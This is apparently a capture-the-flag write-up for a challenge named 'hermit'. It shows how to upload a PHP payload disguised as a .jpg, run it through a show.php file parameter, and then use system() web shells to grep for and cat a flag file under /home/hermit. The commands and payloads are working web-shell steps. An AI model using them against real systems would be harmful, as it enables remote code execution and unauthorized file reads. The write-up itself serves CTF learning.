 Create a file ``hermit-file.jpg`` with payload ``<?php phpinfo() ?>``

```
http --form -v POST  http://104.197.195.221:8086/upload.php fileToUpload@hermit-file.jpg
```

File has been uploaded to a file with random generate name in ``/var/www/html/uploads/``, and in response we can find the new file name. Now let's visit it

```
http -v http://104.197.195.221:8086/show.php?filename=GO6ZR6
```

Phpinfo is shown as expected.

Try to find any file contains the word ``flag``.

```
<?php system("grep -Ri flag *"); ?>
```

A long list of files come out, some of them contain the following path.

```
/home/hermit/flag/userflag.txt
```

Try to get the file content.

```
<?php system("cat /home/hermit/flag/userflag.txt"); ?>
```

In response is the flag.
